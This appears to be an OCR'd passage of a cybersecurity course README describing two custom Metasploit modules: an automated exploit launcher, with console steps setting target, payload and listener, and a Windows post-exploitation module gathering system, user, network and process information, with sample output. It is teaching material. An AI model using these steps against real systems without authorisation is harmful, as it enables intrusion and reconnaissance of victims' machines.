 * msfconsole
* Load the module using the command:use auxiliary/automated_exploit_launcher
* Set the target IP address:set RHOST <target-ip>
* Set the exploit module:set EXPLOIT <exploit-module>
* Set the payload:set PAYLOAD <payload>
* Set the local IP address:set LHOST <your-ip>
* Set the local port:set LPORT <your-port>
* Run the module:run

```bash
msf6 auxiliary(automated_exploit_launcher) > run
[*] Launching exploit <exploit-module> against 172.31.128.202 with payload <payload>
[*] Running exploit...
[*] Sending stage (200262 bytes) to 172.31.128.202
```

**Repo Info:**
* GitHub repository:holbertonschool-cyber_security
* Directory:vulnerability_research_exploitation/0x04_metasploit_scripting
* File:automated_exploit_launcher.rb

### 3. Information Gathering Script

Develop a script that gathers various pieces of information from a target system once access is gained

Explanation:

Usage:

* Create a Metasploit post-exploitation module:modules/post/windows/gather
* Gather information such as the OS version, user accounts, network configuration, and running processes.
* Output the gathered information in a structured format.

* Initialize the Module: The initialize method sets up the module with the necessary metadata, such as the name, description, author, and license.
* Register Options: The register_options method defines the input parameters for the module, including the session ID (SESSION)
* Run Method: The run method handles the main logic of the module. It retrieves the session ID and prints a status message, then calls various methods to gather system information, user information, network information, and running processes.
* gathersysteminfo: Uses the sysinfo command to get the operating system and computer name.
* gatheruserinfo: Uses the getuid command to get the user information.
* gathernetworkinfo: Uses the session.net.config.interfaces method to get network interface details, including IP address, netmask, and broadcast address.
* gatherrunningprocesses: Uses the ps command to get a list of running processes, including their PID and name.

* msfconsole
* use post/windows/gather/information_gathering
* set SESSION <session-id>
* run

```bash
msf6 post(windows/gather/information_gathering) > run
[*] Gathering system information from 172.31.128.202
[*] OS: Windows 10 (Build 14393, 64-bit)
[*] Computer: WIN-ABC1234
[*] User: NT AUTHORITY\SYSTEM
[*] Interface: Ethernet0, IP: 192.168.1.20
[*] Process 1000 - explorer.exe
[*] Process 1050 - cmd.exe
```
